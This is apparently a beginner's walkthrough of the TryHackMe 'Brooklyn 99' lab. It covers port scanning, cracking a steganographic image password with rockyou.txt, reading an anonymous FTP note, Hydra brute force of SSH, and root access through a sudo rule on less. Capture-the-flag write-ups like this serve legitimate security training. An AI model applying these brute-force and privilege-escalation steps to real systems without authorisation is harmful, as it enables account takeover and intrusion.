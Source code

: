 <a href="https://tryhackme.com/room/brooklynninenine"><img src="../images/THMlogo.png" alt="tryhackme" width="200"/></a>

# Brooklyn 99

## nmap
```
Port 21 ftp - anonymous allowed
Port 22 ssh
Port 80 http
```
## gobuster
Gobuster did not bring anything to the table, so lets look to the actual front facing website.

## webside
If we view source we can see a comment:
```
<!-- Have you ever heard of steganography? -->
```
So lets download that image and see what it gives us.
```
wget http://10.10.230.236/brooklyn99.jpg
--2020-07-26 11:28:24--  http://10.10.230.236/brooklyn99.jpg
Connecting to 10.10.230.236:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69685 (68K) [image/jpeg]
Saving to: ‘brooklyn99.jpg’

brooklyn99.jpg               100%[============================================>]  68.05K  --.-KB/s    in 0.09s   

2020-07-26 11:28:24 (762 KB/s) - ‘brooklyn99.jpg’ saved [69685/69685]
```
## steganography

First things first lets just check the .jpg with file and strings in case anything pops out. This shows nothing but when we use steghide, the file comes back as corrupted. Possibly as the data that was hidden is compressed first or requires an actual password. Lets try stegcracker and rockyou.txt to see if we find anything:
```
stegcracker brooklyn99.jpg 
StegCracker 2.0.8 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: <insertpasswordhere>
Tried 20651 passwords
Your file has been written to: brooklyn99.jpg.out
```
Lets now try steghide with the password that we have just cracked.

This produces a note.txt which then provides us with Capt Holt's password

Lets carry on and see what we can get. We can always use this information later.
## ftp

Lets see what we can get on the FTP server. As it is anonymous, I just use the browser to see what files are available. In this case we have a note from Amy to Jake:
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
From this we can make an assumption that we have two usernames jake and amy, both characters from the series. Also we are assured that Jake's password is a weak one.
Lets try and see what Hydra GUI can do with this for ftp first, using jake as the username and rockyou.txt as the list and then for ssh:

Nothing on the ftp side but success on the ssh:
```
hydra -s 22 -l jake -P /usr/share/wordlists/rockyou.txt -t 16 10.10.230.236
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 11:53:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.230.236:22/
[22][ssh] host: 10.10.230.236   login: jake   password: <insertpasswordhere>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 11:54:19
<finished>
```
## ssh
Now we can logon as Jake.
```
ssh jake@10.10.230.236 
jake@10.10.230.236's pasword:
```
Let's look around. Nothing in Jake's home directory. We can however see two other user directories - Amy and Holt.

**Amy**
I can see that again her home directory is empty, but she does have an .ssh folder. We could look at this later.

**Holt**
This time we can see two files.
1. nano.save 
2. user.txt

It we read this we get the answer to Task 1 #1

Now we will check out Jake's sudo -l permissions.

```
sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```
This looks interesting. Jake can run /usr/bin/less as root with no password. Lets try and read the root.txt assuming it is where it should be.

```
- Creator : Fsociety2006 --

Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <insertflaghere>

Enjoy!!
```
The comments in the room suggest a few ways to get root, so I will be coming back to try other ways!!
Great room for begineers like myself as well as being a great TV programme!!

![](/images/Karti.png)
